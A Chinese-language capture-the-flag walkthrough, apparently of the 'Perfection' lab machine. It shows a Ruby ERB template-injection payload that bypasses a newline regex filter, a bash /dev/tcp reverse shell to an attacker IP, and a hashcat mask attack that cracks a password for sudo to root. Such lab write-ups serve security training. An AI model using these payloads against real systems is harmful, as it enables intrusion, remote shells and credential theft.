




## Perfection

#### 主知识1识别hash标识符
```
[★]$ while read -r H; do printf "%s\n" "$H"; hashid "$H"; echo; done < hashes.txt > hash_identify_results.txt
```
#### 主知识2
```
ERB (Embedded Ruby)
Ruby 最常见的模板引擎（Rails 默认）。
使用 <% %>、<%= %> 语法，而不是 {{ }}。
示例：
<h1>Hello <%= @user.name %></h1>
```
#### 开始扫描
```
[★]$ nmap 10.129.229.121 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-21 09:54 CDT
Nmap scan report for 10.129.229.121
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```
#### 浏览到80端口，我们遇到了一个“加权分数计算器”，这是一个学生的工具根据类别得分和百分比权重快速计算总分。
#### 查看About Us页面，其中有一个关于团队成员的部分，我们看到提到了一个团队成员那些显然不太了解安全编码的用户。这暗示了一些编码我们可以利用的web应用程序中的错误
Tina是我们团队的网络开发人员，她是Acme大学计算机科学专业的学生，非常聪明。是她提出了安全学生工具™的整个构想。她在web开发方面绝对是一个天才，但她并没有深入研究安全编码。
#### 此外，页脚提到了WEBrick 1.7.0，这是一个用于构建web服务器的Ruby库。
https://rubygems.org/gems/webrick/versions/1.7.0?locale=en
#### 检查/ weightedgrade端点后，我们看到它接受用户输入

#### 提交一些有效的输入，我们得到以下结果：

#### 我们继续再次发送Submit请求，但这次使用BurpSuite拦截它。
```
交互程序/脚本要你输入一份“成绩加权表”，格式是这样的：
Category：科目类别（比如 Math, Science, English）。
Grade：你在该科目的分数（0–100）。
Weight：该科目在总成绩里的权重（百分比），所有权重相加必须 =100。
```
#### 这允许我们进行修改反复提出要求，轻松地观察对方的反应。在网站上输出的格式和返回给我们的方式表明使用了模板引擎，它开启了服务器端模板注入（SSTI）的可能性。脆弱性。嵌入式Ruby （ERB）是一个允许嵌入Ruby的Ruby模板系统文本文档中的代码，通常在web应用程序中用于生成动态内容。考虑到这种可能性，我们输入有效载荷<%= %>(在Ruby web应用程序)放入Category字段，并尝试发送请求
#### 在Raw添加<%25%3d+%25>，浏览器连网，Forward
```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.229.121
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.229.121/weighted-grade-calc
Content-Type: application/x-www-form-urlencoded
Content-Length: 191
Origin: http://10.129.229.121
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

category1=<%25%3d+%25>test1&grade1=9&weight1=20&category2=test2&grade2=9&weight2=20&category3=test3&grade3=9&weight3=20&category4=test4&grade4=9&weight4=20&category5=test5&grade5=9&weight5=20
```
#### 在发送请求时，我们看到恶意输入被阻止，这表明正在进行某些过滤发生在服务器端。通常，正则表达式（regex）用于服务器端过滤恶意输入，这在Ruby语言中也是可能的。

#### Malicious input blocks 恶意输入块
### Ruby Regex Ruby正则表达式
#### Ruby有用于字符串和正则表达式匹配的=~操作符：
```
irb(main):003:0> "SampleText" =~ /^[a-zA-Z]+$/
=> 0
```
#### 如这里所见，字符串“SampleText”匹配正则表达式/^[a-zA-Z]+$/，这意味着它匹配只包含大写和小写字母的一行文本。但是，如果我们在输入中插入一个换行符和一些不匹配的字符正则表达式，例如{，并尝试用相同的正则表达式匹配它，我们可以观察到它仍然匹配：
```
irb(main):004:0> "SampleText\n{{}}" =~ /^[a-zA-Z]+$/
=> 0
```
#### 如果没有换行符，它将返回nil：
```
irb(main):008:0> "SampleText{{}}" =~ /^[a-zA-Z]+$/
=> nil
```
### Foothold
#### 知道了这一点，我们就可以通过在开始，然后我们的有效载荷在一个新的行
#### test后面有个换行
```
test
<%= IO.popen("sleep 10").readlines() %>
```
#### 此有效负载将导致服务器执行sleep 10命令，使页面挂起10秒钟。如果页面确实挂起，则表明注入成功。

#### 在Repeater窗口中，我们修改拦截的请求，将有效载荷包含在参数category1，确保对其进行url编码。我们手动包含换行符通过使用其url编码%0A：
```
test%0A<%25%3d+IO.popen("sleep+10").readlines()%25>
```
#### 填入并选择按Ctrl+U:
```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.229.121
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.229.121/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 177
Origin: http://10.129.229.121
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

category1=test1%0A<%2510%3d+IO.popen("sleep+10").readlines()+%25>&grade1=9&weight1=20&category2=test2&grade2=8&weight2=40&category3=test3&grade3=7&weight3=40&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```
#### 页面挂起10秒，表明注入成功了！对于反向shell，我们将使用以下有效载荷：
```
nc -lnvp 4444
```
#### 要注入的payload,按Ctrl+U,因为\n不方便转化，手动输入%0A
```
test1
<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").readlines() %>
```
```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.229.121
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.229.121/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 177
Origin: http://10.129.229.121
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

category1=test1%0A<%25%3d+IO.popen("bash+c+'bash+i+>%26+/dev/tcp/10.10.14.2/4444+0>%261'").readlines()+%25>&grade1=8&weight1=30&category2=test2&grade2=9&weight2=30&category3=test3&grade3=8&weight3=40&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```
#### 有反弹了
```
[★]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.105.130] 42528
bash: cannot set terminal process group (992): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
susan@perfection:~/ruby_app$ script /dev/null -c /bin/bash
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
susan@perfection:~/ruby_app$ cat /home/susan/user.txt
cat /home/susan/user.txt
```
### Privilege Escalation
#### 我们看到用户susan在sudo组中。因为sudo需要密码，所以我们需要找到Susan用户的密码。
#### 进一步的枚举显示susan在mail文件夹中有一封电子邮件：
```
susan@perfection:~/ruby_app$ ls -la /var/mail
total 12
drwxrwsr-x  2 root mail  4096 May 14  2023 .
drwxr-xr-x 13 root root  4096 Oct 27  2023 ..
-rw-r-----  1 root susan  625 May 14  2023 susan
susan@perfection:~/ruby_app$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```
```
由于学生路径数据泄露，我们将过渡到木星等级，我认为我们也应该迁移我们的证书（“我们的”包括其他学生）

在我们搬到新的平台。我还建议一个新的密码规范，让每个人都更容易。密码格式为：

{firstname}_{firstname倒写}_{随机生成的1到1,000,000,000之间的整数}

请注意，名字中的所有字母都应转换为小写。

如果可以，请告诉我迁移的最新情况。我目前正在平台上注册我们的大学。
```
#### 在susan用户的主目录中，有一个包含迁移数据库的文件夹（Migration）：
```
susan@perfection:~$ ls -la Migration/
total 16
drwxr-xr-x 2 root  root  4096 Oct 27  2023 .
drwxr-x--- 7 susan susan 4096 Feb 26  2024 ..
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
```
#### Migration文件夹包含了一个重要的文件：path_credentials.db有关从“瞳孔路径”到新系统过渡的数据。
```
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite> .exit
```
#### 我们主要对Susan的密码散列感兴趣，以便进一步升级特权。长度的哈希值表明这些很可能是SHA-256哈希值。我们可以用我们机器上的哈希标识符：
```
[★]$ vi hash
[★]$ cat hash
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
[★]$ cat hash | cut -d '|' -f3 > hashes.txt
[★]$ cat hashes.txt
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```
```
[★]$ while read -r H; do printf "%s\n" "$H"; hashid "$H"; echo; done < hashes.txt > hash_identify_results.txt
```
```
[★]$ cat hash_identify_results.txt
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
Analyzing 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
[+] Snefru-256 
[+] SHA-256 
[+] RIPEMD-256 
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256) 
<SNIP>
```
### Mask Attacks
#### 掩码攻击用于生成匹配特定模式的单词。这种攻击是当密码长度或格式已知时特别有用。知道了密码的格式，我们可以创建一个以susan_nasus_开头的单词列表，附加每个9位数的模式，并对其进行散列，等等把它和苏珊的散列比较一下。生成的随机数有90%的可能性是一个9位数的数字，这就是为什么我们现在专注于9位数的数字。在Hashcat中使用模式6（将键空间中的每个候选项附加到数组中的每个单词）wordlist)，我们就能找到苏珊的密码
```
[★]$ hashcat -m 1400 -a 6 hash2 wl ?d?d?d?d?d?d?d?d?d -O
<SNIP>
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Mon Sep 22 04:12:56 2025 (30 secs)
Time.Estimated...: Mon Sep 22 04:13:26 2025 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (wl), Left Side
Guess.Mod........: Mask (?d?d?d?d?d?d?d?d?d) [9], Right Side
Guess.Queue.Base.: 1/1 (100.00%)
Guess.Queue.Mod..: 1/1 (100.00%)
Speed.#2.........:  3995.5 kH/s (0.01ms) @ Accel:512 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 125967360/1000000000 (12.60%)
Rejected.........: 0/125967360 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#2...: Salt:0 Amplifier:125967104-125967360 Iteration:0-256
Candidate.Engine.: Device Generator
Candidates.#2....: susan_nasus_981539210 -> susan_nasus_643759210
```
```
-a 6：指定攻击模式，在这种情况下，一个组合子攻击，其中每个候选在关键字空格被附加到单词列表中的每个单词。
hash：包含待破解哈希值的文件。
wl：包含前缀susan_nasus_的wordlist文件。
? d ? d ? d ? d ? d ? d ? d ? d ?d：表示9位数字所有组合的掩码。
-O：优化的内核（对速度有用，但可能有限制）
```
#### 我们已经获得了密码susan_nasus_413759210，现在我们尝试使用它来运行sudo将我们的权限升级为root
```
susan@perfection:~/Migration$ sudo -i
sudo -i
[sudo] password for susan: susan_nasus_413759210

root@perfection:~# cat /root/root.txt
```
